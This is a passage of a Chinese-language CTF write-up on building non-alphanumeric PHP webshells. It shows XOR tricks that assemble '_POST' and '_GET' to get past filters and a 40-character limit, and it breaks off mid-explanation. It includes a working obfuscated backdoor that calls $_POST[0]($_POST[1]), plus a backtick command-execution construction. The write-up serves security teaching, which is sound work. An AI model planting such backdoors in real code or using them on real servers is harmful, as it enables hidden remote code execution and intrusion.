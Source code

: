 我们希望使用这种后门创建一些可以绕过检测的并且对我们有用的字符串，如 `_POST` ， `system` ， `call_user_func_array`，或者是任何我们需要的东西。

下面是个非常简单的非数字字母的 `PHP` 后门：

```php
<?php
    @$_++; // $_ = 1
    $__=("#"^"|"); // $__ = _
    $__.=("."^"~"); // _P
    $__.=("/"^"`"); // _PO
    $__.=("|"^"/"); // _POS
    $__.=("{"^"/"); // _POST 
    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
```

在这里我说明下， `.=` 是字符串的连接，具体参看 `PHP` 语法

我们甚至可以将上面的代码合并为一行，从而使程序的可读性更差，代码如下：

```
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
```

我们回到 `xman` 训练赛的那题来看，我们的想法是通过构造异或来去绕过那串字符，那么我们该如何构造这个字串使得长度小于 `40` 呢？

我们最终是要读取到那个 `getFlag` 函数，我们需要构造一个 `_GET` 来去读取这个函数，我们最终构造了如下字符串：

![img](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406100958326.png)

可能很多小伙伴看到这里仍然无法理解这段字符串是如何构造的吧，我们就对这段字符串进行段分析。

## 构造 `_GET` 读取 

首先我们得知道 `_GET` 由什么异或而来的，经过我的尝试与分析，我得出了下面的结论：

```php
<?php
    echo "`{{{"^"?<>/";//_GET
?>
```

这段代码一大坨是啥意思呢？因为 40 个字符长度的限制，导致以前逐个字符异或拼接的 webshell 不能使用。
这里可以使用 php 中可以执行命令的反引号 ``` 和 `Linux` 下面的通配符 `?`

- `?` 代表匹配一个字符
- \``` 表示执行命令
- `"` 对特殊字符串进行解析

由于 `?` 只能匹配一个字符，这种写法的意思是循环调用，分别匹配。我们将其进行分解来看：

```php
<?php
    echo "{"^"<";
?>
```

输出结果为：
